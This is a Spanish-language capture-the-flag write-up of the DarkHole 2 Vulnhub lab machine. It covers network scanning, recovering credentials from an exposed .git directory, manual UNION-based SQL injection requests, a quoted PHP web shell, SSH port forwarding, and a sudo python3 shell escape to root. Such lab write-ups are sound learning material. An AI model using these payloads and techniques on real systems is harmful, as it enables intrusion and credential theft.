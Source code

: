 ```yaml
---
title: "DarkHole 2 - Vulnhub"
layout: post
date: 2023-12-14 22:10
tags:
  - Vulnhub
  - DarkHole
  - RCE
  - BruteForce
  - php
  - Pivoting
  - Information Leakage
  - Github Enumeration
  - SQLI
  - Port Forwarding
  - Bash History
  - Abusing Sudoers
image: /assets/images/Darkhole2/Darkhole2.png
headerImage: true
projects: false
hidden: false
description: "DarkHole 2 - Vunlhub"
category: blog
author: CAHOn3R
externalLink: false
---
```

# Reconocimiento

Como de costumbre, al tratarse de una máquina de *Vulnhub* y correrla en local empezaremos el reconocimiento escaneando nuestra propia red con **arp-scan** para encontrar la **IP** de la máquina víctima.
```bash
❯ arp-scan -I eth0 --localnet --ignoredups
192.168.0.19	00:0c:29:b0:7d:26	VMware, Inc.

-I # para especificar la Interfaz que queremos escanear
--localnet # para decir que queremos que sea un escaneo local
--ignoredups # para que no reporte duplicados
```

La **IP** máquina víctima es **192.168.0.19**, así que procedemos a realizar el escaneo de puertos con **nmap**
```bash
❯ nmap -p- -sS --min-rate 5000 --open -vvv -n -Pn -oG allPorts 192.168.0.19

PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64
MAC Address: 00:0C:29:B0:7D:26 (VMware)
```

Nos reporta 2 puertos abiertos, 22 **SSH** y 80 **HTTP**, ahora trataremos de ver lar versiones y servicios que corren en estos puertos.
```bash
❯ nmap -sCV -p 22,80 192.168.0.19 -oN targeted

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 57:b1:f5:64:28:98:91:51:6d:70:76:6e:a5:52:43:5d (RSA)
|   256 cc:64:fd:7c:d8:5e:48:8a:28:98:91:b9:e4:1e:6d:a8 (ECDSA)
|_  256 9e:77:08:a4:52:9f:33:8d:96:19:ba:75:71:27:bd:60 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: DarkHole V2
| http-git: 
|   192.168.0.19:80/.git/
|     Git repository found!
|     Repository description: Unnamed repository; edit this file 'description' to name the...
|_    Last commit message: i changed login.php file for more secure 
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
``` 
Como podemos ver en el puerto 80 está corriendo un **Apache 2.4.41** y en el puerto 22 **OpenSSH 8.2p1** si la versión fuese menor a la 7.7 podría ser vulnerable a **user enumeration**, pero como no es el caso de momento nos sirve de bien poco.
Lo que más me llama la atención es el directorio **.git**, al verlo me viene a la mente la herramienta [git-dumper.py](https://github.com/arthaud/git-dumper)
```bash
❯ git log --oneline
0f1d821 (HEAD -> master) i changed login.php file for more secure
a4d900a I added login.php file with default credentials
aa2a5f3 First Initialize
❯ git diff a4d900a
diff --git a/login.php b/login.php
index 8a0ff67..0904b19 100644
--- a/login.php
+++ b/login.php
@@ -2,7 +2,10 @@
 session_start();
 require 'config/config.php';
 if($_SERVER['REQUEST_METHOD'] == 'POST'){
-    if($_POST['email'] == "lush@admin.com" && $_POST['password'] == "321"){
+    $email = mysqli_real_escape_string($connect,htmlspecialchars($_POST['email']));
+    $pass = mysqli_real_escape_string($connect,htmlspecialchars($_POST['password']));
+    $check = $connect->query("select * from users where email='$email' and password='$pass' and id=1");
+    if($check->num_rows){
         $_SESSION['userid'] = 1;
         header("location:dashboard.php");
         die();
```
Con la herramienta me descargo el directorio **.git/** y con **git** hago un `git log` y voy enumerando los logs hasta dar con el que tenemos aquí arriba y ver que se quitaron estas líneas del archivo **login.php** que casualmente tiene credenciales **lush@admin.com:321**
Aún no hemos enumerado la web y ya tenemos credenciales, no hay que esforzarse mucho en esto, hay un login, tenemos creds, para dentro.
[<img src="/assets/images/Darkhole2/captura1.png">](/assets/images/Darkhole2/captura1.png)
# Explotación

Lo que vemos es esto, y en lo que me fijo es en la **URL**, no sé por qué mi cerebro me llevaba a pensar en una vulnerabilidad **IDOR**, pero no es el caso... Lo siguiente que pruebo es lo típico, meterle una comilla a la **URL** y...
[<img src="/assets/images/Darkhole2/captura2.png">](/assets/images/Darkhole2/captura2.png)
Capturo la petición con **burpSuite** para trabajar más cómodo.

**Pruebas realizadas en burpSuite**
```burpSuite
GET /dashboard.php?id=1'--+- HTTP/1.1  200 OK
GET /dashboard.php?id=1'+or+sleep(5)--+- HTTP/1.1 # El servidor tarda 5 segundos en responder
```
_despues de esto ya sabemos que el servidor es vulnerable a SQLI_

Vamos a explotarlo de manera manual
```bash
# Primero tenemos que obtener el numero de columnas que hay en la base de datos que se está utilizando
GET /dashboard.php?id=1'+order+by+6--+- 200 OK'
# Vamos iterando el numero hasta llegar al correcto

GET /dashboard.php?id=1'+unilon+select+1,2,3,4,5,6--+- '
# aqui bucamos alguno de los numeros en la web, como no veo ninguno de los números cambio el ID a 2

GET /dashboard.php?id=2'+unilon+select+1,2,3,4,5,6--+- 200 OK'
# Aquí el servidor nos devuelve los numeros así que podemos injectar codigo sql para enumerar las bases de datos

GET /dashboard.php?id=2'+unilon+select+1,2,database(),4,5,6--+-
darkhole_2' # Listar database
GET /dashboard.php?id=2'+union+select+"test","test",group_concat(table_name),"test","test","test"+from+information_schema.tables+where+table_schema='darkhole_2'--+- 
ssh,users' # listar tablas

GET /dashboard.php?id=2'+union+select+"test","test",group_concat(column_name),"test","test","test"+from+information_schema.columns+where+table_schema="darkhole_2"+and+table_name="ssh"--+-
id,pass,user' # listar columnas

GET /dashboard.php?id=2'+union+select+"test","test",group_concat(user,0x3a,pass),"test","test","test"+from+ssh--+-
jehad:fool' # Credenciales SSH
```
En la última petición podemos poner directamente la tabla **SSH** porque estamos listando la base de datos que está en uso, si no fuese así había que especificar la base de datos junto a la tabla, por ejemplo `darkhole_2.ssh`.

Podemos conectarnos por **SSH**, tras la enumeración típica manual encuentro una [tarea cron](https://ayuda.hostalia.com/hc/es/articles/360017724357--Qu%C3%A9-es-un-cron-o-tarea-programada-)
[<img src="/assets/images/Darkhole2/captura3.png">](/assets/images/Darkhole2/captura3.png)
# Pivoting

Esta tarea se ejecuta como el usuario **losy** cada minuto, lo que hace es cambiarse al directorio /opt/web e iniciar un servidor web con PHP en el localhost por el puerto 9999,
me desplazo al directorio
```bash
cd /op/web

ls
index.php

cat index.php
<?php
echo "Parameter GET['cmd']";
if(isset($_GET['cmd'])){
echo system($_GET['cmd']);
}
?>
```
emos una "web Shell" o "PHP shell" que se ejecuta como **losy**, dado que nos hemos conectado por **SSH** voy a ir a lo cómodo y me voy a traer el puerto 9999 a mi máquina
```bash
ssh jehad@192.168.0.19 -L 9999:127.0.0.1:9999
```
Ahora en nuestro navegador vamos a la 127.0.0.1:9999 y donde realmente estamos apuntando es al puerto 9999 de la máquina víctima, ahí vemos el web shell**, así que nos entablamos una **reverse Shell** por el puerto **443**

[<img src="/assets/images/Darkhole2/captura4.png">](/assets/images/Darkhole2/captura4.png)
En verde tenemos la reverse shell con bash poniéndonos en escucha en **netcat** por el puerto 443 y en azul el tratamiento de la **tty**, faltaría exportar las variables de entorno.
```bash
losy@darkhole:/opt/web$ export TERM=xterm SHELL=bash
losy@darkhole:/opt/web$ stty rows x columns x # aqui tus valores
```

> Puedes hacer un stty -a para consultar tus valores en tu maquina atacante

Ya estamos como el usuario **losy**, ahora hay que escalar privilegios.
En el directorio personal de **losy** hago un `ls -la` es una buena costumbre, lo hago siempre.
```bash
jehad@darkhole:~$ ls -la
total 40
drwxr-xr-x 5 jehad jehad 4096 Dec 14 16:01 .
drwxr-xr-x 5 root  root  4096 Sep  2  2021 ..
-rw------- 1 jehad jehad 5677 Dec 15 10:16 .bash_history
-rw-r--r-- 1 jehad jehad  220 Sep  2  2021 .bash_logout
-rw-r--r-- 1 jehad jehad 3771 Sep  2  2021 .bashrc
drwx------ 2 jehad jehad 4096 Sep  2  2021 .cache
drwxrwxr-x 3 jehad jehad 4096 Sep  2  2021 .local
-rw-r--r-- 1 jehad jehad  807 Sep  2  2021 .profile
drwx------ 2 jehad jehad 4096 Sep  3  2021 .ssh
```

Lo que más me llama la atención de aquí es que el archivo **.bash_history** no tenga un link simbólico al **2>/dev/null**, ya que en los **CTF** es lo más común de ver, le hago un **cat** y veo la **pass** del usuario **losy**.
```bash
cat .bash_history
P0assw0rd losy:gang
```

# Escalada de Privilegios

Pruebo a hacer un **sudo -l**
```bash
losy@darkhole:~$ sudo -l
[sudo] password for losy: 
User losy may run the following commands on darkhole:
    (root) /usr/bin/python3
```
Podemos ejecutar **python3** como el usuario **root** de manera temporal... Vamos a [gtfobins](https://gtfobins.github.io/gtfobins/python/#sudo) aunque en este caso no era necesario.

```bash
losy@darkhole:~$ sudo /usr/bin/python3 -c 'import os; os.system("/bin/sh")'
# whoami
root
# cat /root/root.txt
DarkHole{'Legend'}
```

